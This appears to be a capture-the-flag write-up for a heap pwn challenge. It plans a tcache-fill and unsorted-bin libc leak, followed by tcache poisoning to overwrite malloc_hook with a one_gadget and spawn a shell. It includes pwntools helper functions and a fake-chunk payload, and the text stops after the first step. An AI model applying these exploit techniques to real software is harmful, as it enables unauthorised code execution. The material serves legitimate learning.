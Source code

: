 - First idea:

So we will create 7 chunks and then free them. Then we free the fake chunk created in string name to make that fake chunk goes to unsorted bin, and this bin will write main arena address (relate to libc) to this chunk.

Then we execute show() to get address leak and calculate libc base address. Finally, we abuse link list of tcache (overwrite forward pointer) to overwrite some hook (malloc_hook, realloc_hook...) with one_gadget.

- Summary:
  1. Leak address and calculate
  2. Overwrite some hook and spawn shell

# 3. Exploit

We will write script for easy handling with these function:

```
def add(size, data):
    p.sendlineafter(b'Choice:', b'1')
    p.sendlineafter(b'Enter size:', '{}'.format(size).encode())
    p.sendafter(b'Enter data:', data)

def edit(index, size, data):
    p.sendlineafter(b'Choice:', b'2')
    p.sendlineafter(b'Enter index:', '{}'.format(index).encode())
    p.sendlineafter(b'Enter size:', '{}'.format(size).encode())
    p.sendafter(b'Enter data:', data)

def delete(index):
    p.sendlineafter(b'Choice:', b'3')
    p.sendlineafter(b'Enter index:', '{}'.format(index).encode())

def set_name(name=b'default'):
    p.sendafter(b'Input name:', name)

def show(edit=b'N', name=b'default'):
    p.sendlineafter(b'Choice:', b'4')
    p.sendlineafter(b'(Y/N)', edit)
    if edit==b'Y':
        set_name(name)
    return p.recvline()
```

- Step 1: Leak address and calculate

As above knowledge, we just create and free 7 chunk with the same size (larger than fastbin), so we will use chunk with size of `0x90` (metadata is 0x10 and data is 0x80). And then we free the fake chunk in string name with index 20. 

So for first input of name, we have following payload:

```
pointer_to_fake_chunk = flat(0x602100 + 0x20, 0)
fake_chunk = fit({
	0x0: flat(0, 0x91),
	0x90: flat(0, 0x21),	# Avoid heap consolidation
	0xb0: flat(0, 0x21)	# Avoid heap consolidation
	}, filler = b'\x00')
set_name(pointer_to_fake_chunk + fake_chunk)
```
